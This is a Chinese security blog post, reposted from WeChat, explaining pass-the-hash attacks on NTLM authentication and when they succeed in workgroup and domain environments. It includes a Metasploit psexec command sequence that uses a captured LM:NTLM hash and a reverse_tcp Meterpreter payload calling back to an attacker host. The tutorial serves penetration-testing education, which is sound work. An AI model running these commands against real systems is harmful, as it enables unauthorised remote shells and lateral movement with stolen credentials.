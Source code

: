 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rhuLYDaQdEz32_lcOPTzDQ)

作者：谢公子

  

CSDN 安全博客专家，擅长渗透测试、Web 安全攻防、红蓝对抗。其自有公众号：谢公子学安全

免责声明：本公众号发布的文章均转载自互联网或经作者投稿授权的原创，文末已注明出处，其内容和图片版权归原网站或作者本人所有，并不代表安全 + 的观点，若有无意侵权或转载不当之处请联系我们处理，谢谢合作！

**哈希传递攻击**攻击****  

哈希传递攻击是基于 NTLM 认证的一种攻击方式。哈希传递攻击的利用前提是我们获得了某个用户的密码哈希值，但是解不开明文。这时我们可以利用 NTLM 认证的一种缺陷，利用用户的密码哈希值来进行 NTLM 认证。在域环境中，大量计算机在安装时会使用相同的本地管理员账号和密码。因此，如果计算机的本地管理员账号密码相同，攻击者就能使用哈希传递攻击登录内网中的其他机器。

**哈希传递攻击适用情况：**

**在工作组环境中：**

*   Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
    
*   Windows Vista 之后的机器，只能是 administrator 用户的哈希值才能进行哈希传递攻击，其他用户 (包括管理员用户但是非 administrator) 也不能使用哈希传递攻击，会提示拒绝访问。
    

**在域环境中：**

*   只能是域管理员组内用户 (可以是域管理员组内非 administrator 用户) 的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器。
    

  

![图片](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)

  

**MSF 进行哈希传递攻击 PtH(工作组)**

有些时候，当我们获取到了某台主机的 administrator 用户的密码哈希值 ，并且该主机的 445 端口打开着。我们则可以利用 exploit/windows/smb/psexec 模块用 MSF 进行远程登录 (哈希传递攻击)。这个是 rhost 可以是一个主机，也可以设置一个网段。

这里目标主机的 WindowsVista 之后的机器，所以只能使用 administrator 用户进行攻击。

**工作组环境，必须是 administrator 用户**

```
msf > use  exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set lhost 192.168.10.27
msf exploit(psexec) > set rhost 192.168.10.14
msf exploit(psexec) > set smbuser Administrator
msf exploit(psexec) > set smbpass 815A3D91F923441FAAD3B435B51404EE:A86D277D2BCD8C8184B01AC21B6985F6   #这里LM和NTLM我们已经获取到了
msf exploit(psexec) > exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXR346vWRBKKRHxQ80CDY8xic6bmLTl4qhiagIEmpeOteZ1Ccef87micv8Cg/640?wx_fmt=png)

  

  

